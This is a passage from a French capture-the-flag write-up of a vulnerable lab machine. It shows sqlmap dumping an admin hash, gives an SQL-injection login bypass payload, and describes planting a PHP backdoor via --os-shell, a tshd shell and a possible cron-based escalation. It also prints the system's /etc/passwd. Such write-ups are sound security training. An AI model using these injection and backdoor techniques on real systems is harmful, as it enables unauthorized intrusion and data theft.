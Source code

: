 Malheureusement aucun des hashs n'est tombé même avec une bonne wordlist. Il faut dire aussi que le MySQL est plus récent que sur d'autres CTF (comme [VulnImage]({% link _posts/2014-04-15-Solution-du-CTF-VulnImage-de-VulnHub.md %})) et l'algorithme de hashage utilisé est plus robuste.  

On dumpe le contenu de la table *users* de la base *ch16* utilisé par l'application web (`-D ch16 -t users --dump`) :  

```
+---------+------------------------------------------+------------------+--------+-----------+------------+------------+---------------------+
| user_id | pass                                     | email            | active | last_name | first_name | user_level | registration_date   |
+---------+------------------------------------------+------------------+--------+-----------+------------+------------+---------------------+
| 1       | c2c4b4e51d9e23c02c15702c136c3e950ba9a4af | admin@isints.com | NULL   | Privett   | Dan        | 0          | 2011-05-07 17:27:01 |
+---------+------------------------------------------+------------------+--------+-----------+------------+------------+---------------------+
```

Le hash SHA-1 n'est pas retrouvable sur les sites comme *crackstation*. Le casser ne semble donc pas être une option. Il est toutefois possible de bypasser l'autentification en spécifiant `admin@isints.com'#` comme email dans le formulaire mais cela ne nous emmène pas plus loin (il n'y a pas de zone privée, l'appli n'est pas complète).  

On appelle sqlmap avec l'option `--os-shell` et il parvient à créer une backdoor PHP dans `/var/www/`. On remarque immédiatement que ces backdoors sont créées avec les droits root. Oui le mysql tourne en root !  

Par conséquent, il doit être possible de jouer directement avec `INTO OUTFILE` pour créer un fichier qui nous ouvrirait les portes comme une tâche dans `cron.hourly` (sauf que le fichier n'est pas exécutable, il faudrait donc se creuser les méninges pour trouver une astuce). Mais pour le moment je préfère placer un `tshd` pour disposer d'un vrai shell.  

On est sur un kernel Linux 2.6 64bits :  

```
Linux web 2.6.38-8-server #42-Ubuntu SMP Mon Apr 11 03:49:04 UTC 2011 x86_64 x86_64 x86_64 GNU/Linux
```

Contenu de `/etc/passwd` :  

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:0:0:MySQL Server,,,:/root:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
landscape:x:104:110::/var/lib/landscape:/bin/false
dan:x:1000:1000:Dan Privett,,,:/home/dan:/bin/bash
```